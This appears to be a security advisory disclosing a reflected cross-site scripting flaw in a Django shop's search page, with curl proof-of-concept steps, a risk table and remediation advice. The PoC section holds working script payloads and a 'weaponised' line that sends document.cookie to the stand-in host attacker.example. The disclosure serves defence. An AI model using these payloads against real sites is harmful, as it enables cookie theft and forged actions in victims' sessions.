




# Description

Reflected Cross-Site Scripting (CWE-79) on the shop search endpoint `GET /shop/?q=<payload>`. The `shop()` view in `Shopping/views.py` passes the raw `q` parameter to the template, which renders it with the `|safe` filter (`Results for: {{ query|safe }}`), disabling Django's auto-escaping. Any HTML/JavaScript supplied in `q` is reflected verbatim into the response and executed by the victim's browser.

The vulnerability is:
- **Reflected** — the payload lives in the URL and runs on page load.
- **Unauthenticated** — no session cookie is required to reach the endpoint.
- **Limited defense-in-depth** — no `Content-Security-Policy` or `X-XSS-Protection` header is sent, neither by Django directly (port 8000) nor through the BunkerWeb reverse proxy (which strips the remaining security headers via `REMOVE_HEADERS`).

Because the `csrftoken` cookie is **not** marked `HttpOnly`, a successful injection can read it and forge state-changing requests in the victim's session. The `sessionid` cookie **is** `HttpOnly`, so the session token itself cannot be read from `document.cookie`.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Craft a URL with a script payload in `q`. | `/shop/?q=<script>alert(document.domain)</script>` |
| 2 | Send the (URL-encoded) link to a victim via forum, DM, or e-mail. | No attacker account needed. |
| 3 | Victim opens the link. | The `<script>` tag is parsed and executed on the application's origin. |

The injected markup is placed directly inside the search-info paragraph:

```html
<p class="search-info">Results for: <script>alert(document.domain)</script></p>
```

# PoC

**1. Confirm reflection without authentication:**

```bash
curl -i "http://<TARGET>/shop/?q=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E" | grep -A1 "search-info"
# <p class="search-info">Results for: <script>alert(document.domain)</script></p>
```



**2. Verify the bytes are RAW `<script>` (not HTML-encoded):**

```bash
curl -s "http://<TARGET>/shop/?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" | grep "search-info" | xxd | head -5
# literal bytes 3c 73 63 72 69 70 74 3e = "<script>"  (encoded "&lt;" would be 26 6c 74 3b)
```



**3. Confirm no defense headers are present:**

```bash
curl -sI "http://<TARGET>/shop/?q=test" | grep -iE "content-security-policy|x-xss-protection|x-content-type-options"
# Through the BunkerWeb proxy: (empty)
# Directly against Django (http://localhost:8000): only "X-Content-Type-Options: nosniff", which does not mitigate XSS.
```



**4. Weaponised payload — `csrftoken` exfiltration** (cookie is not `HttpOnly`):

```
/shop/?q=<script>fetch('https://attacker.example/c?t='+document.cookie)</script>
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Theft of the non-`HttpOnly` `csrftoken` cookie and any DOM-accessible data. |
| Integrity | Forged state-changing actions (purchases, profile changes, forum posts) in the victim's session. Password and e-mail changes require the current password, so they cannot be forged this way. |
| Availability | No direct impact demonstrated. |

Overall severity: **Medium** — potential compromise of user data confidentiality and application integrity.

# Remediation

1. **Restore Django's automatic HTML escaping** — remove the `|safe` filter from the search query rendering and rely on Django's default auto-escaping (`{{ query }}`).
2. **Enforce context-appropriate output encoding** — ensure that user-controlled values are correctly escaped according to their rendering context.
3. **Implement a restrictive Content-Security-Policy (CSP)** — configure `CONTENT_SECURITY_POLICY` in `docker-compose.yml`, restrict script execution to authorised resources, and avoid `unsafe-inline`. Use nonces or hashes where necessary. Validate the policy using `CONTENT_SECURITY_POLICY_REPORT_ONLY` before enforcement.
4. **Preserve security headers at the reverse proxy level** — update `REMOVE_HEADERS` in `docker-compose.yml` to preserve `Content-Security-Policy`, `Content-Security-Policy-Report-Only` and `X-Content-Type-Options`. Ensure that `SECURE_CONTENT_TYPE_NOSNIFF` remains enabled alongside Django's existing `SecurityMiddleware`.
5. **Maintain secure cookie settings** — preserve `HttpOnly` on session cookies and configure appropriate `Secure` and `SameSite` attributes according to deployment requirements. Cookie hardening is not a substitute for XSS prevention.
6. **Add regression tests** — verify that user-controlled search values are rendered as escaped text and that the expected security headers are present in the final HTTP response.

# Author
Hackrapovic
